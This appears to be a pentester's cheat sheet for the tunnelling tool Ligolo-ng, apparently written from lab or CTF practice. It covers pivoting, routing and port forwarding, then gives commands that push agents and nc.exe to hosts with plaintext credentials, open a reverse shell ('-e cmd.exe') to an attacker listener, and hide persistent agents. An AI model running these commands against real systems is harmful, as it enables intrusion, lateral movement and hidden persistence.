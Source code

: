 # Ligolo-ng

## Pivoting

{% tabs %}
{% tab title="1. Interface Setup" %}
Create and activate a new tunnel interface for `ligolo` :

```bash
# Create the interface
sudo ip tuntap add user kali mode tun ligolo
# Activate the interface
sudo ip link set ligolo up
```

On `Ligolo-ng >= v0.6`, this can be done in a single step:

```bash
ligolo-ng » interface_create --name ligolo
INFO[0006] Creating a new "ligolo" interface...
INFO[0006] Interface created!
ligolo-ng » interface_list
┌───────────────────────────┐
│ Available tuntaps         │
├───┬──────────┬────────────┤
│ # │ TAP NAME │ DST ROUTES │
├───┼──────────┼────────────┤
│ 0 │ ligolo   │            │
└───┴──────────┴────────────┘
```
{% endtab %}

{% tab title="2. Proxy" %}
When the environment has no internet availability, e.g. CTFs, practice labs, etc.:

```bash
./proxy -selfcert -laddr 0.0.0.0:443
```

When there is internet available on the environment, e.g. on an actual test environment:

> _Port 80 needs to be accessible for Let's Encrypt certificate validation/retrieval._

```bash
./proxy -autocert -laddr 0.0.0.0:443
```
{% endtab %}

{% tab title="3. Agent" %}
From the target machine:

```bash
# When -autocert is used on the proxy
./agent -connect 10.129.204.146:11601:443 -retry
# When -selfcert is used on the proxy
./agent -connect 10.129.204.146:11601:443 -ignore-cert -retry
```
{% endtab %}

{% tab title="4. Interact" %}
asd

```bash
# List active sessions
ligolo-ng » session
# List interfaces of the target machine
[Agent : pivot@pivot-machine] >> ifconfig
```
{% endtab %}

{% tab title="5. Routes" %}
Add a route to the target network:

```bash
sudo ip route add 172.16.10.0/24 dev ligolo
```

On `Ligolo-ng (>= 0.6)` this can be done internally:

```bash
ligolo-ng » interface_add_route --name ligolo --route 172.16.10.0/24
INFO[3206] Route created.       
```

Finally, start the tunnel:

```bash
[Agent : pivot@pivot-machine] >> tunnel_start
```

Now, we can reach the `172.16.10.0/24` network from our Kali:

```bash
$ sudo nmap 172.16.10.0/24 -T4
```
{% endtab %}
{% endtabs %}

## Port-Forward

{% tabs %}
{% tab title="1. Routing" %}
To access local ports on the connected agent, `ligolo-ng` uses a hardcoded "magic" CIDR: `240.0.0.0/4`:

```bash
$ sudo ip route add 240.0.0.1/32 dev ligolo
```
{% endtab %}

{% tab title="2. Interact" %}
Now, any IP queried in this unused subnet is automatically redirected to the agent's `127.0.0.1`. For instance, the below scan will scan the target's loopback address (`127.0.0.1`):

```bash
$ nmap 240.0.0.1
```
{% endtab %}
{% endtabs %}

## Agent Transfer & Execution

We don't need elevated privileges on the target to use the `ligolo-agent`.

{% tabs %}
{% tab title="Transfer" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth --put-file 'agent.exe' '\Windows\Temp\agent.exe'
```
{% endcode %}
{% endtab %}

{% tab title="Execute" %}
{% code overflow="wrap" %}
```bash
$ nxc smb 10.129.204.146 -u Administrator -p 'IpreferanewP@$$' --local-auth -x '\Windows\Temp\agent.exe -connect 10.10.15.223:11601 -ignore-cert'
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Reverse Shell

We have a route to the target network, but the target network does not have a route to our attack host. Thus, if we want to catch a reverse shell from a target other than the pivot host:

{% tabs %}
{% tab title="1. Listener Setup" %}
Create a listener on the agent/pivot host (`0.0.0.0:3000`) that will redirect the traffic to our proxy/attack host (`127.0.0.1:4444`).

{% code overflow="wrap" %}
```bash
[Agent : pivot@pivot-machine] >> listener_add --addr 0.0.0.0:3000 --to 127.0.0.1:4444 --tcp
INFO[0373] Listener 0 created on remote agent!
```
{% endcode %}

Start listening from our attack host:

```bash
$ nc -lvnp 4444
listening on [any] 4444...
```
{% endtab %}

{% tab title="2. Connect from Target" %}
Transfer the binary to the target:

{% code overflow="wrap" %}
```bash
nxc mssql 10.10.63.148 -u sql_svc -p Dolphin1 --put-file 'nc.exe' 'c:\windows\temp\nc.exe'
```
{% endcode %}

Connect from the target to the pivot machine (`10.10.63.147`) on the listening port (`30000`):

{% code overflow="wrap" %}
```bash
$ nxc mssql 10.10.63.148 -u sql_svc -p Dolphin1 -x 'c:\windows\temp\nc.exe 10.10.63.147 3000 -e cmd.exe'
```
{% endcode %}

This will connect to the agent's listener and then forwarded to our proxy:

```bash
$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.45.237] from (UNKNOWN) [192.168.45.237] 46144
...
C:\Windows\system32>whoami
nt service\mssql$sqlexpress

C:\Windows\system32>hostname
MS02
```
{% endtab %}
{% endtabs %}

## Persistence

{% code overflow="wrap" %}
```sh
# Linux targets
nohup /tmp/agent -connect 10.10.14.5:443 -ignore-cert > /dev/null 2>&1 &

# Windows targets
Start-Process -FilePath "C:\Windows\Temp\agent.exe" -ArgumentList "-connect 10.10.14.5:443 -ignore-cert" -WindowStyle Hidden
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="Documentation" %}
{% embed url="https://docs.ligolo.ng/" %}
{% endtab %}

{% tab title="Repo" %}
{% embed url="https://github.com/nicocha30/ligolo-ng" %}
{% endtab %}

{% tab title="Video Demo" %}
{% embed url="https://www.youtube.com/watch?v=qou7shRlX_s" %}
{% endtab %}
{% endtabs %}
